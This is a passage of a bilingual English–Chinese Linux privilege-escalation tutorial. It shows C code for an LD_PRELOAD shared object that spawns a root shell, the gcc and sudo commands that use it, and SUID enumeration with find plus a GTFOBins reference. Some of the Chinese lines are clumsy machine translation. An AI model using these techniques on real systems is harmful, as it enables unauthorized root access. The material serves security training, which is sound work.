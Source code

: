 The C code will simply spawn a root shell and can be written as follows;  
C 代码将简单地生成一个根 shell，可以写成如下;
```c
#include <stdio.h> #include < stdio.h>  
#include <sys/types.h> #include < sys/types.h>  
#include <stdlib.h> #include < stdlib.h>  
```
void _init() { 无效 _init（） {  
unsetenv("LD_PRELOAD"); unsetenv（“LD_PRELOAD”）;  
setgid(0); setgid（0）;  
setuid(0); setuid（0）;  
system("/bin/bash"); 系统（“/bin/bash”）;  
}  

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;  
我们可以将此代码保存为 shell.c，并使用以下参数使用 gcc 将其编译为共享对象文件;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](https://i.imgur.com/HxbszMW.png)  

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.  
现在，我们可以在启动用户可以使用 sudo 运行的任何程序时使用此共享对象文件。在我们的例子中，可以使用 Apache2、find 或几乎任何我们可以用 sudo 运行的程序。

We need to run the program by specifying the LD_PRELOAD option, as follows;  
我们需要通过指定 LD_PRELOAD 选项来运行程序，如下所示;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.  
这将导致具有 root 权限的 shell 生成。

![](https://i.imgur.com/1YwARyZ.png)
# Privilege Escalation: SUID
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  
许多 Linux 权限控制都依赖于控制用户和文件的交互。这是通过权限完成的。到目前为止，您已经知道文件可以具有读取、写入和执行权限。这些权限授予用户在其权限级别内。这随着 SUID（设置用户标识）和 SGID（设置组标识）而改变。它们允许分别以文件所有者或组所有者的权限级别执行文件。  
  
You will notice these files have an “s” bit set showing their special permission level.  
您会注意到这些文件设置了一个“s”位，显示其特殊权限级别。  
  
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.  
`find / -type f -perm -04000 -ls 2>/dev/null` 将列出设置了 SUID 或 SGID 位的文件。

![](https://i.imgur.com/fJEeZ4m.png)

A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)).  
一个好的做法是将此列表中的可执行文件与 go awayBins （ [https://gtfobins.github.io](https://gtfobins.github.io/) ） 进行比较。单击SUID按钮将过滤设置SUID位时已知可利用的二进制文件（您也可以将此链接用于预过滤列表 [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) ）。
